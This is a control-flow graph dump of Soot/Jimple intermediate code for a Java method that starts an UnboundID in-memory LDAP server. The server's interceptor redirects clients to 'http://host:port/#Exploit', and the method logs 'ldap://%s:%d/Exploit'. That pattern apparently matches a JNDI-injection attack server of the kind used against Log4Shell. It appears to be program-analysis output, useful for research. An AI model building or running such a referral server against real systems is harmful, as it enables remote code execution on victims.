virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 15:
[preds: 14 ] [succs: 16 42 ]
$r2[0] = $r3;
"->"Block 16:
[preds: 15 ] [succs: 17 42 ]
virtualinvoke r28.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void setListenerConfigs(com.unboundid.ldap.listener.InMemoryListenerConfig[])>($r2);
";
    "Block 15:
[preds: 14 ] [succs: 16 42 ]
$r2[0] = $r3;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 16:
[preds: 15 ] [succs: 17 42 ]
virtualinvoke r28.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void setListenerConfigs(com.unboundid.ldap.listener.InMemoryListenerConfig[])>($r2);
"->"Block 17:
[preds: 16 ] [succs: 18 42 ]
$r10 = new server.LDAPServer$OperationInterceptor;
";
    "Block 16:
[preds: 15 ] [succs: 17 42 ]
virtualinvoke r28.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void setListenerConfigs(com.unboundid.ldap.listener.InMemoryListenerConfig[])>($r2);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 17:
[preds: 16 ] [succs: 18 42 ]
$r10 = new server.LDAPServer$OperationInterceptor;
"->"Block 18:
[preds: 17 ] [succs: 19 42 ]
$r11 = new java.net.URL;
";
    "Block 17:
[preds: 16 ] [succs: 18 42 ]
$r10 = new server.LDAPServer$OperationInterceptor;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 18:
[preds: 17 ] [succs: 19 42 ]
$r11 = new java.net.URL;
"->"Block 19:
[preds: 18 ] [succs: 20 42 ]
$r12 = new java.lang.StringBuilder;
";
    "Block 18:
[preds: 17 ] [succs: 19 42 ]
$r11 = new java.net.URL;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 19:
[preds: 18 ] [succs: 20 42 ]
$r12 = new java.lang.StringBuilder;
"->"Block 20:
[preds: 19 ] [succs: 21 42 ]
specialinvoke $r12.<java.lang.StringBuilder: void <init>()>();
";
    "Block 19:
[preds: 18 ] [succs: 20 42 ]
$r12 = new java.lang.StringBuilder;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 20:
[preds: 19 ] [succs: 21 42 ]
specialinvoke $r12.<java.lang.StringBuilder: void <init>()>();
"->"Block 21:
[preds: 20 ] [succs: 22 42 ]
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"http://\");
";
    "Block 20:
[preds: 19 ] [succs: 21 42 ]
specialinvoke $r12.<java.lang.StringBuilder: void <init>()>();
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 21:
[preds: 20 ] [succs: 22 42 ]
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"http://\");
"->"Block 22:
[preds: 21 ] [succs: 23 42 ]
$r15 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r14);
";
    "Block 21:
[preds: 20 ] [succs: 22 42 ]
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"http://\");
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 22:
[preds: 21 ] [succs: 23 42 ]
$r15 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r14);
"->"Block 23:
[preds: 22 ] [succs: 24 42 ]
$r16 = virtualinvoke $r15.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\":\");
";
    "Block 22:
[preds: 21 ] [succs: 23 42 ]
$r15 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r14);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 23:
[preds: 22 ] [succs: 24 42 ]
$r16 = virtualinvoke $r15.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\":\");
"->"Block 24:
[preds: 23 ] [succs: 25 42 ]
$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>(r17);
";
    "Block 23:
[preds: 22 ] [succs: 24 42 ]
$r16 = virtualinvoke $r15.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\":\");
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 24:
[preds: 23 ] [succs: 25 42 ]
$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>(r17);
"->"Block 25:
[preds: 24 ] [succs: 26 42 ]
$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"/#Exploit\");
";
    "Block 24:
[preds: 23 ] [succs: 25 42 ]
$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>(r17);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 25:
[preds: 24 ] [succs: 26 42 ]
$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"/#Exploit\");
"->"Block 26:
[preds: 25 ] [succs: 27 42 ]
$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>();
";
    "Block 25:
[preds: 24 ] [succs: 26 42 ]
$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"/#Exploit\");
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 26:
[preds: 25 ] [succs: 27 42 ]
$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>();
"->"Block 27:
[preds: 26 ] [succs: 28 42 ]
specialinvoke $r11.<java.net.URL: void <init>(java.lang.String)>($r20);
";
    "Block 26:
[preds: 25 ] [succs: 27 42 ]
$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>();
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 27:
[preds: 26 ] [succs: 28 42 ]
specialinvoke $r11.<java.net.URL: void <init>(java.lang.String)>($r20);
"->"Block 28:
[preds: 27 ] [succs: 29 42 ]
specialinvoke $r10.<server.LDAPServer$OperationInterceptor: void <init>(java.net.URL)>($r11);
";
    "Block 27:
[preds: 26 ] [succs: 28 42 ]
specialinvoke $r11.<java.net.URL: void <init>(java.lang.String)>($r20);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 28:
[preds: 27 ] [succs: 29 42 ]
specialinvoke $r10.<server.LDAPServer$OperationInterceptor: void <init>(java.net.URL)>($r11);
"->"Block 29:
[preds: 28 ] [succs: 30 42 ]
virtualinvoke r28.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void addInMemoryOperationInterceptor(com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor)>($r10);
";
    "Block 28:
[preds: 27 ] [succs: 29 42 ]
specialinvoke $r10.<server.LDAPServer$OperationInterceptor: void <init>(java.net.URL)>($r11);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 29:
[preds: 28 ] [succs: 30 42 ]
virtualinvoke r28.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void addInMemoryOperationInterceptor(com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor)>($r10);
"->"Block 30:
[preds: 29 ] [succs: 31 42 ]
$r21 = new com.unboundid.ldap.listener.InMemoryDirectoryServer;
";
    "Block 29:
[preds: 28 ] [succs: 30 42 ]
virtualinvoke r28.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void addInMemoryOperationInterceptor(com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor)>($r10);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 30:
[preds: 29 ] [succs: 31 42 ]
$r21 = new com.unboundid.ldap.listener.InMemoryDirectoryServer;
"->"Block 31:
[preds: 30 ] [succs: 32 42 ]
specialinvoke $r21.<com.unboundid.ldap.listener.InMemoryDirectoryServer: void <init>(com.unboundid.ldap.listener.InMemoryDirectoryServerConfig)>(r28);
";
    "Block 30:
[preds: 29 ] [succs: 31 42 ]
$r21 = new com.unboundid.ldap.listener.InMemoryDirectoryServer;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 31:
[preds: 30 ] [succs: 32 42 ]
specialinvoke $r21.<com.unboundid.ldap.listener.InMemoryDirectoryServer: void <init>(com.unboundid.ldap.listener.InMemoryDirectoryServerConfig)>(r28);
"->"Block 32:
[preds: 31 ] [succs: 33 42 ]
r22 = $r21;
";
    "Block 31:
[preds: 30 ] [succs: 32 42 ]
specialinvoke $r21.<com.unboundid.ldap.listener.InMemoryDirectoryServer: void <init>(com.unboundid.ldap.listener.InMemoryDirectoryServerConfig)>(r28);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 32:
[preds: 31 ] [succs: 33 42 ]
r22 = $r21;
"->"Block 33:
[preds: 32 ] [succs: 34 42 ]
$r24 = <java.lang.System: java.io.PrintStream out>;
";
    "Block 32:
[preds: 31 ] [succs: 33 42 ]
r22 = $r21;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 33:
[preds: 32 ] [succs: 34 42 ]
$r24 = <java.lang.System: java.io.PrintStream out>;
"->"Block 34:
[preds: 33 ] [succs: 35 42 ]
$r23 = newarray (java.lang.Object)[3];
";
    "Block 33:
[preds: 32 ] [succs: 34 42 ]
$r24 = <java.lang.System: java.io.PrintStream out>;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 34:
[preds: 33 ] [succs: 35 42 ]
$r23 = newarray (java.lang.Object)[3];
"->"Block 35:
[preds: 34 ] [succs: 36 42 ]
$r23[0] = r5;
";
    "Block 34:
[preds: 33 ] [succs: 35 42 ]
$r23 = newarray (java.lang.Object)[3];
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 35:
[preds: 34 ] [succs: 36 42 ]
$r23[0] = r5;
"->"Block 36:
[preds: 35 ] [succs: 37 42 ]
$r23[1] = r14;
";
    "Block 35:
[preds: 34 ] [succs: 36 42 ]
$r23[0] = r5;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 36:
[preds: 35 ] [succs: 37 42 ]
$r23[1] = r14;
"->"Block 37:
[preds: 36 ] [succs: 38 42 ]
$r23[2] = r5;
";
    "Block 36:
[preds: 35 ] [succs: 37 42 ]
$r23[1] = r14;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 37:
[preds: 36 ] [succs: 38 42 ]
$r23[2] = r5;
"->"Block 38:
[preds: 37 ] [succs: 39 42 ]
$r25 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"[*] LDAP server listening on 0.0.0.0:%d (ldap://%s:%d/Exploit)\", $r23);
";
    "Block 37:
[preds: 36 ] [succs: 38 42 ]
$r23[2] = r5;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 38:
[preds: 37 ] [succs: 39 42 ]
$r25 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"[*] LDAP server listening on 0.0.0.0:%d (ldap://%s:%d/Exploit)\", $r23);
"->"Block 39:
[preds: 38 ] [succs: 40 42 ]
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>($r25);
";
    "Block 38:
[preds: 37 ] [succs: 39 42 ]
$r25 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"[*] LDAP server listening on 0.0.0.0:%d (ldap://%s:%d/Exploit)\", $r23);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 39:
[preds: 38 ] [succs: 40 42 ]
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>($r25);
"->"Block 40:
[preds: 39 ] [succs: 41 42 ]
virtualinvoke r22.<com.unboundid.ldap.listener.InMemoryDirectoryServer: void startListening()>();
";
    "Block 39:
[preds: 38 ] [succs: 40 42 ]
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>($r25);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 40:
[preds: 39 ] [succs: 41 42 ]
virtualinvoke r22.<com.unboundid.ldap.listener.InMemoryDirectoryServer: void startListening()>();
"->"Block 41:
[preds: 40 ] [succs: 43 ]
goto [?= return];
";
    "Block 40:
[preds: 39 ] [succs: 41 42 ]
virtualinvoke r22.<com.unboundid.ldap.listener.InMemoryDirectoryServer: void startListening()>();
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 41:
[preds: 40 ] [succs: 43 ]
goto [?= return];
"->"Block 43:
[preds: 41 42 ] [succs: ]
return;
";
    "Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
"->"Block 43:
[preds: 41 42 ] [succs: ]
return;
";
}
